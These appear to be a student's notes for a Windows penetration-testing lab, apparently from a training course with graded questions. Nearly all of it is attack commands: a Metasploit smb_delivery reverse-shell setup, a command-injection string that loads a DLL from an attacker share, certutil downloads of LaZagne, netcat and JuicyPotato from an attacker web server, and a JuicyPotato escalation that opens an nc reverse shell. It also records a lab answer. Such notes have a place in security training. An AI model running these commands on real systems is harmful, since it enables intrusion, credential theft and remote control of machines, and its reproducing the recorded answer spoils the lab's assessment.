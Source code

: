 ```
sudo msfconsole
search smb_delivery
use 0
set LHOST 10.10.15.5
set SRVHOST 10.10.15.5
set payload windows/x64/powershell_reverse_tcp
run
```

Command Injection: 10.10.15.5 && rundll32.exe \\10.10.15.5\TOESS\test.dll,0

```
shell
wmic qfe
```

**Which two KBs are installed on the target system? (Answer format: 3210000&3210060)
3199986&3200970

**Find the password for the ldapadmin account somewhere on the system.
```
findstr /SI /M "confidential.txt"
certutil.exe -urlcache -f http://10.10.15.176:8000/LaZagne.exe C:\Users\Public\LaZagne.exe
LaZagne.exe
```


**Elevate Privileges
- User has SeImpersonate, so we can use JuicyPotato.exe
```
python3 -m http.server
certutil.exe -urlcache -f http://10.10.15.176:8000/nc.exe C:\Users\Public\nc.exe
certutil.exe -urlcache -f http://10.10.15.176:8000/JuicyPotato.exe C:\Users\Public\JuicyPotato.exe
c:\Users\Public\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\Users\Public\nc.exe 10.10.15.176 8443 -e cmd.exe" -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```

**Find confidential.txt
```
dir /S confidential.txt
```
